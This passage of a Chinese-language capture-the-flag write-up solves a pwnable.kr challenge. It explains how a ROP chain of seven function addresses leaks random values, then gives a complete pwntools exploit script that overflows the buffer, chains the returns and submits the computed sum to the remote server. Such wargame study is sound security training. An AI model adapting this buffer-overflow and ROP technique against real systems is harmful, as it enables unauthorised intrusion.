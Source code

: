 由于调用了 `srand`，我们无法预测 `abcdefg` 的值，但是我们又需要它们的值才能计算出 `sum`。幸运的是，在 `ropme` 函数中刚才被我们忽略的上面的一大串 `if` 语句能带来一些帮助。当输入的 `v2` 等于这些随机数中的任一个时，就会执行相应的大写字母作为名字的函数，而这些函数会将随机数本身打印出来，这样我们就能拿到 7 个随机数的值了，相加就能得到 `sum`。

我们从 IDA 中拿到 7 个函数的地址，前面先填充 `0x78` 字节，随后依次追加 7 个函数的地址，那么一个函数返回后就会返回到下一个函数的入口上，构成 ROP 链，最后再返回 `ropme` 计算 `sum`。然而前面提到 `ropme` 地址无法写到栈上，但我们可以利用 `main` 函数中 `call ropme` 所在地址 `0x0809fffc`，来返回到 `ropme`。

因此，最终 payload 为：

```python
from pwn import *

p = remote('pwnable.kr', 9032)

p.recvuntil(':')
p.sendline('1')
p.recvuntil(':')

payload = 'a'*0x78 + p32(0x0809fe4b) + p32(0x0809fe6a) + p32(0x0809fe89) + p32(0x0809fea8) + p32(0x0809fec7) + p32(0x0809fee6) + p32(0x0809ff05) + p32(0x0809fffc)
p.sendline(payload)
p.recvline()

sum = 0
for i in range(7):
    p.recvuntil('+')
    sum += int(p.recvline()[:-2]) # strip )\n

p.recvuntil(':')
p.sendline('1')
p.recvuntil(':')
p.sendline(str(sum))
print p.recv()
```
